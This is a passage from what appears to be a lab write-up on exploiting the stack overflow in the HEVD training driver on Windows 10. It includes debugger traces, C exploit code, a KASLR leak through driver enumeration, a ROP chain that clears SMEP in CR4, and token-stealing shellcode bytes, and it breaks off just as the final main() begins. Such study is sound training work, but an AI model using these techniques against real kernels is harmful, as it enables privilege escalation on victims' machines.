



# HEVD_IOCTL_BUFFER_OVERFLOW_STACK

This is the first one I am doing from the HEVD, it is a classic stack buffer overflow as seen below function block showcasing a `memmove` call with controlled size and input buffer:



Luckily, we have been given the `.pdb` file which we can load into the debugger and get used to working with the WinDBG. I have set a breakpoint at the `TriggerBufferOverflowStack` and we can see a `memcpy` call instead of the `memmove` , technically no change in the way they work it is more of an optimization that replaces the function. We can use `DeviceIoControl` function to invoke the IOCTL to interact with the driver.

Once we execute our exploit, we see that we hit a breakpoint on debugger. 

```java
1: kd> u rip L40
HEVD!TriggerBufferOverflowStack [c:\projects\hevd\driver\hevd\bufferoverflowstack.c @ 70]:
fffff807`3d0965b4 48895c2408      mov     qword ptr [rsp+8],rbx
fffff807`3d0965b9 4889742410      mov     qword ptr [rsp+10h],rsi
fffff807`3d0965be 48897c2418      mov     qword ptr [rsp+18h],rdi
fffff807`3d0965c3 4154            push    r12
fffff807`3d0965c5 4156            push    r14
fffff807`3d0965c7 4157            push    r15
fffff807`3d0965c9 4881ec20080000  sub     rsp,820h
fffff807`3d0965d0 488bf2          mov     rsi,rdx
fffff807`3d0965d3 488bf9          mov     rdi,rcx
fffff807`3d0965d6 33db            xor     ebx,ebx
fffff807`3d0965d8 41bc00080000    mov     r12d,800h
fffff807`3d0965de 458bc4          mov     r8d,r12d
fffff807`3d0965e1 33d2            xor     edx,edx
fffff807`3d0965e3 488d4c2420      lea     rcx,[rsp+20h]
fffff807`3d0965e8 e813aff7ff      call    HEVD!memset (fffff807`3d011500)
fffff807`3d0965ed 90              nop
fffff807`3d0965ee 448d4301        lea     r8d,[rbx+1]
fffff807`3d0965f2 418bd4          mov     edx,r12d
fffff807`3d0965f5 488bcf          mov     rcx,rdi
fffff807`3d0965f8 ff154abaf7ff    call    qword ptr [HEVD!_imp_ProbeForRead (fffff807`3d012048)]
fffff807`3d0965fe 4c8bcf          mov     r9,rdi
fffff807`3d096601 4c8d0578290000  lea     r8,[HEVD! ?? ::NNGAKEGL::`string' (fffff807`3d098f80)]
fffff807`3d096608 448d7b03        lea     r15d,[rbx+3]
fffff807`3d09660c 418bd7          mov     edx,r15d
fffff807`3d09660f 448d734d        lea     r14d,[rbx+4Dh]
fffff807`3d096613 418bce          mov     ecx,r14d
fffff807`3d096616 ff15ecb9f7ff    call    qword ptr [HEVD!_imp_DbgPrintEx (fffff807`3d012008)]
fffff807`3d09661c 4c8bce          mov     r9,rsi
fffff807`3d09661f 4c8d057a290000  lea     r8,[HEVD! ?? ::NNGAKEGL::`string' (fffff807`3d098fa0)]
fffff807`3d096626 418bd7          mov     edx,r15d
fffff807`3d096629 418bce          mov     ecx,r14d
fffff807`3d09662c ff15d6b9f7ff    call    qword ptr [HEVD!_imp_DbgPrintEx (fffff807`3d012008)]
fffff807`3d096632 4c8d4c2420      lea     r9,[rsp+20h]
fffff807`3d096637 4c8d0582290000  lea     r8,[HEVD! ?? ::NNGAKEGL::`string' (fffff807`3d098fc0)]
fffff807`3d09663e 418bd7          mov     edx,r15d
fffff807`3d096641 418bce          mov     ecx,r14d
fffff807`3d096644 ff15beb9f7ff    call    qword ptr [HEVD!_imp_DbgPrintEx (fffff807`3d012008)]
fffff807`3d09664a 458bcc          mov     r9d,r12d
fffff807`3d09664d 4c8d058c290000  lea     r8,[HEVD! ?? ::NNGAKEGL::`string' (fffff807`3d098fe0)]
fffff807`3d096654 418bd7          mov     edx,r15d
fffff807`3d096657 418bce          mov     ecx,r14d
fffff807`3d09665a ff15a8b9f7ff    call    qword ptr [HEVD!_imp_DbgPrintEx (fffff807`3d012008)]
fffff807`3d096660 4c8d05892a0000  lea     r8,[HEVD! ?? ::NNGAKEGL::`string' (fffff807`3d0990f0)]
fffff807`3d096667 418bd7          mov     edx,r15d
fffff807`3d09666a 418bce          mov     ecx,r14d
fffff807`3d09666d ff1595b9f7ff    call    qword ptr [HEVD!_imp_DbgPrintEx (fffff807`3d012008)]
fffff807`3d096673 4c8bc6          mov     r8,rsi
fffff807`3d096676 488bd7          mov     rdx,rdi
fffff807`3d096679 488d4c2420      lea     rcx,[rsp+20h]
fffff807`3d09667e e83dabf7ff      call    HEVD!memcpy (fffff807`3d0111c0)
fffff807`3d096683 eb1b            jmp     HEVD!TriggerBufferOverflowStack+0xec (fffff807`3d0966a0)
fffff807`3d096685 8bd8            mov     ebx,eax
fffff807`3d096687 448bc8          mov     r9d,eax
fffff807`3d09668a 4c8d057f260000  lea     r8,[HEVD! ?? ::NNGAKEGL::`string' (fffff807`3d098d10)]
fffff807`3d096691 ba03000000      mov     edx,3
fffff807`3d096696 8d4a4a          lea     ecx,[rdx+4Ah]
fffff807`3d096699 ff1569b9f7ff    call    qword ptr [HEVD!_imp_DbgPrintEx (fffff807`3d012008)]
fffff807`3d09669f 90              nop
fffff807`3d0966a0 8bc3            mov     eax,ebx
fffff807`3d0966a2 4c8d9c2420080000 lea     r11,[rsp+820h]
fffff807`3d0966aa 498b5b20        mov     rbx,qword ptr [r11+20h]
fffff807`3d0966ae 498b7328        mov     rsi,qword ptr [r11+28h]
fffff807`3d0966b2 498b7b30        mov     rdi,qword ptr [r11+30h]
fffff807`3d0966b6 498be3          mov     rsp,r11
1: kd> bp fffff807`3d09667e

```

Then we set a breakpoint at the corresponding `memcpy` call and continue the execution. Since we have enabled displaying of the debugging message we can see that kernel buffer size is `0x800` and our user input is `0x200` 

```java
1: kd> g
[+] UserBuffer: 0x000001F268370000
[+] UserBuffer Size: 0x200
[+] KernelBuffer: 0xFFFFF905982268F0
[+] KernelBuffer Size: 0x800
[+] Triggering Buffer Overflow in Stack
Breakpoint 2 hit
HEVD!TriggerBufferOverflowStack+0xca:
fffff807`3d09667e e83dabf7ff      call    HEVD!memcpy (fffff807`3d0111c0)
1: kd> r
rax=0000000000000000 rbx=0000000000000000 rcx=fffff905982268f0
rdx=000001f268370000 rsi=0000000000000200 rdi=000001f268370000
rip=fffff8073d09667e rsp=fffff905982268d0 rbp=ffffd0038a0170f0
 r8=0000000000000200  r9=0000000000000003 r10=0000000000000000
r11=0000000000000010 r12=0000000000000800 r13=ffffd0038547cbc0
r14=000000000000004d r15=0000000000000003
iopl=0         nv up ei ng nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040282
HEVD!TriggerBufferOverflowStack+0xca:
fffff807`3d09667e e83dabf7ff      call    HEVD!memcpy (fffff807`3d0111c0)

```

Now, let’s just send a bigger chunk of data to the driver 

```java
#include <stdio.h>
#include <Windows.h>
 
 
int main()
{
    HANDLE hDriver = CreateFile("\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }
 
    LPVOID uBuffer = VirtualAlloc(NULL, 2800, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    RtlFillMemory(uBuffer, 2800, 'A');
    DeviceIoControl(hDriver, 0x222003, (LPVOID)uBuffer, 2800, NULL, 0, NULL, NULL);
}
```

Now the size of our input buffer is `0xAF0` , considerably bigger than the kernel buffer size where out input is copied:

```java
1: kd> g
[+] UserBuffer: 0x00000200D6780000
[+] UserBuffer Size: 0xAF0
[+] KernelBuffer: 0xFFFFF90599C768F0
[+] KernelBuffer Size: 0x800
[+] Triggering Buffer Overflow in Stack
Breakpoint 2 hit
HEVD!TriggerBufferOverflowStack+0xca:
fffff807`3d09667e e83dabf7ff      call    HEVD!memcpy (fffff807`3d0111c0)
1: kd> r
rax=0000000000000000 rbx=0000000000000000 rcx=fffff90599c768f0
rdx=00000200d6780000 rsi=0000000000000af0 rdi=00000200d6780000
rip=fffff8073d09667e rsp=fffff90599c768d0 rbp=ffffd0038a017480
 r8=0000000000000af0  r9=0000000000000003 r10=0000000000000000
r11=0000000000000010 r12=0000000000000800 r13=ffffd0038547cbc0
r14=000000000000004d r15=0000000000000003
iopl=0         nv up ei ng nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040282
HEVD!TriggerBufferOverflowStack+0xca:
fffff807`3d09667e e83dabf7ff      call    HEVD!memcpy (fffff807`3d0111c0)
1: kd> ? 0xaf0
Evaluate expression: 2800 = 00000000`00000af0

```

Executing till the return of the function and we see that stack is now full of A’s and return address has been overwritten:

```java
1: kd> pt
HEVD!TriggerBufferOverflowStack+0x10b:
fffff807`3d0966bf c3              ret
1: kd> dq rsp L10
fffff905`99c77108  41414141`41414141 41414141`41414141
fffff905`99c77118  41414141`41414141 41414141`41414141
fffff905`99c77128  41414141`41414141 41414141`41414141
fffff905`99c77138  41414141`41414141 41414141`41414141
fffff905`99c77148  41414141`41414141 41414141`41414141
fffff905`99c77158  41414141`41414141 41414141`41414141
fffff905`99c77168  41414141`41414141 41414141`41414141
fffff905`99c77178  41414141`41414141 41414141`41414141

```

Continuing the execution resulted in an access violation because return address is invalid:

```java
1: kd> g
Access violation - code c0000005 (!!! second chance !!!)
HEVD!TriggerBufferOverflowStack+0x10b:
fffff807`3d0966bf c3              ret

```

Finding buffer size, sending a generated pattern:

```java
#include <stdio.h>
#include <Windows.h>
 
 
int main()
{
    HANDLE hDriver = CreateFile("\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }
 
    LPVOID uBuffer = VirtualAlloc(NULL, 2800, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    const char* buffer = {"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2D"};
    RtlCopyMemory(uBuffer, buffer, 2500);
    DeviceIoControl(hDriver, 0x222003, (LPVOID)uBuffer, 2800, NULL, 0, NULL, NULL);
}
```

Copying the pattern which will be on the top of stack at the time of crash:

```java
Edition build lab: 19041.1.amd64fre.vb_release.191206-1406
Machine Name:
Kernel base = 0xfffff804`53c00000 PsLoadedModuleList = 0xfffff804`5482a790
System Uptime: 0 days 0:00:02.047
IOINIT: Built-in driver \FileSystem\luafv failed to initialize with status - 0xC0000034
KDTARGET: Refreshing KD connection
Access violation - code c0000005 (!!! second chance !!!)
HEVD!TriggerBufferOverflowStack+0x10b:
fffff804`5a4c66bf c3              ret
1: kd> dq rsp L1
ffffed08`d2052108  43327243`31724330

```

The offset is now 2072:

```java
ζ msf-pattern_offset -q 4332724331724330                                                                                                                                                                                                      
[*] Exact match at offset 2072
```

---

Now comes the crucial part, exploitation of this vulnerability for profit and privilege. Execution of shellcode directly on the windows application will result in the BSOD (Blue Screen Of Death), as shown below, when we try to put the shellcode next to the identified execute and try to jump to it for execution will result in `ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY` 



Even though we have allocated a memory which will inherently have executed permission but this is where the clear distinction will be made, due to a protection introduced in Windows 8.1 or higher version is called SMEP Supervisor Mode Execution Prevention meaning that kernel will not execute any sort of instruction if it will exist on the user-mode address space.

```java
For analysis of this file, run !analyze -v
nt!DbgBreakPointWithStatus:
fffff802`7c806e40 cc              int     3
0: kd> g
Break instruction exception - code 80000003 (first chance)

A fatal system error has occurred.

nt!DbgBreakPointWithStatus:
fffff802`7c806e40 cc              int     3
0: kd> !analyze -v
Connected to Windows 10 19041 x64 target at (Mon Jul 29 20:02:51.772 2024 (UTC + 5:30)), ptr64 TRUE
Loading Kernel Symbols
...............................................................
................................................................
.......................................................
Loading User Symbols
.....
Loading unloaded module list
...
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************

ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY (fc)
An attempt was made to execute non-executable memory.  The guilty driver
is on the stack trace (and is typically the current instruction pointer).
When possible, the guilty driver's name is printed on
the BugCheck screen and saved in KiBugCheckDriver.
Arguments:
Arg1: 000001c48fbb0000, Virtual address for the attempted execute.
Arg2: 000000001c54b867, PTE contents.
Arg3: ffffe78ea77b6f80, (reserved)
Arg4: 0000000080000005, (reserved)

Debugging Details:
------------------

```

Luckily there is a bypass to it. Recalling the ROP techniques we used for the user-mode application for performing series of operation before executing our shellcode from an executed memory region. The SMEP value for enable/disable is held by CR4 register’s 20th bit. Flipping this bit means either turning on or off the SMEP protection on the kernel. This is where the ROP comes in help, we will be using this 

Let’s try NULL’ng out the CR4 register using the gadgets from `ntoskrnl.exe` (this binary is the kernel image of Windows). But before that, since we will have to calculate the base address of this binary for making use of gadgets as we cannot hardcode it due to KASLR.

We can get the `ntoskrnl.exe` address by calling the `EnumDeviceDrivers`within our exploit and then compare the traversed drivers and find the address. This is possible because when we run the exploit, it will run with medium integrity allowing us to enumerate the drivers.

```java
#include <stdio.h>
#include <ostream>
#include <Windows.h>
#include <cstdint>  // For uintptr_t
#include <psapi.h>
#include <iostream>
 
 

uintptr_t getBaseAddr(LPCWSTR drvName) {
    LPVOID drivers[512];
    DWORD cbNeeded;
    int nDrivers, i = 0;
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        WCHAR szDrivers[512];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++) {
            if (GetDeviceDriverBaseNameW(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                if (wcscmp(szDrivers, drvName) == 0) {
                    return reinterpret_cast<uintptr_t>(drivers[i]);
                }
            }
        }
    }
    return 0;
}

int main()
{
    HANDLE hDriver = CreateFile("\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }

    uintptr_t ntBase = getBaseAddr(L"ntoskrnl.exe");
    printf("[*] NTBase:      0x%llx\n", ntBase);
 }
```

Running the exploit, we get the base address of `ntoskrnl.exe` basically the holy kernel:

```java
C:\Users\robin\Documents>.\stack-buffer-overflow.exe
[*] NTBase:      0xfffff8060de00000
```

Now coming to modification of the CR4 to `0` directly, it resulted in failure, there is some more digging that has to be done around it  from my end to identify why:

```java
1: kd> p
nt!KiSetClockIntervalToMinimumRequested+0x98:
fffff806`0e0148c8 59              pop     rcx
1: kd> dq rsp L10
ffffc18e`0bad7110  00000000`00000000 fffff806`0e1a0a87
ffffc18e`0bad7120  0000024d`bc500000 41414141`41414141
ffffc18e`0bad7130  41414141`41414141 41414141`41414141
ffffc18e`0bad7140  41414141`41414141 41414141`41414141
ffffc18e`0bad7150  41414141`41414141 41414141`41414141
ffffc18e`0bad7160  41414141`41414141 41414141`41414141
ffffc18e`0bad7170  41414141`41414141 41414141`41414141
ffffc18e`0bad7180  41414141`41414141 41414141`41414141
1: kd> p
nt!KiSetClockIntervalToMinimumRequested+0x99:
fffff806`0e0148c9 c3              ret
1: kd> p
nt!KeFlushCurrentTbImmediately+0x17:
fffff806`0e1a0a87 0f22e1          mov     cr4,rcx
1: kd> p
Unknown exception - code c0000096 (!!! second chance !!!)
nt!KeFlushCurrentTbImmediately+0x17:
fffff806`0e1a0a87 0f22e1          mov     cr4,rcx
1: kd> r cr4
cr4=0000000000b50ef8

```

But there is another way to do the work, since from the debugger we can know the existence of value inside the CR4 register, we can hardcode it to our exploit with the 20th bit flipped. Once we do that, our ROP chain will be:

```c
buffer | pop_rcx | hardcoded_flipped_value | mov cr4, rcx | shellcode

```

The final exploit containing a shellcode which will copy the token of a privileged process owned by system and it will write the token our current process and with that we can spawn a `cmd.exe` which will have elevated privilege:

```c
#include <stdio.h>
#include <ostream>
#include <Windows.h>
#include <cstdint>  // For uintptr_t
#include <psapi.h>
#include <iostream>
 

BYTE sc[256] = {
  0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48,
  0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xc0, 0x4d,
  0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x49, 0x81, 0xe8, 0x48,
  0x04, 0x00, 0x00, 0x4d, 0x8b, 0x88, 0x40, 0x04, 0x00, 0x00,
  0x49, 0x83, 0xf9, 0x04, 0x75, 0xe5, 0x49, 0x8b, 0x88, 0xb8,
  0x04, 0x00, 0x00, 0x80, 0xe1, 0xf0, 0x48, 0x89, 0x88, 0xb8,
  0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01,
  0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x66,
  0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x48,
  0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x8a, 0x68,
  0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78, 0x01, 0x00, 0x00,
  0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8b, 0xaa,
  0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f, 0x01, 0xf8, 0x48,
  0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};
 

uintptr_t getBaseAddr(LPCWSTR drvName) {
    LPVOID drivers[512];
    DWORD cbNeeded;
    int nDrivers, i = 0;
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        WCHAR szDrivers[512];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++) {
            if (GetDeviceDriverBaseNameW(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                if (wcscmp(szDrivers, drvName) == 0) {
                    return reinterpret_cast<uintptr_t>(drivers[i]);
                }
            }
        }
    }
    return 0;
}

// 0x00000000003a0a87: mov cr4, rcx; ret; 
// 0x00000000002148c8: pop rcx; ret; 

int main()
{
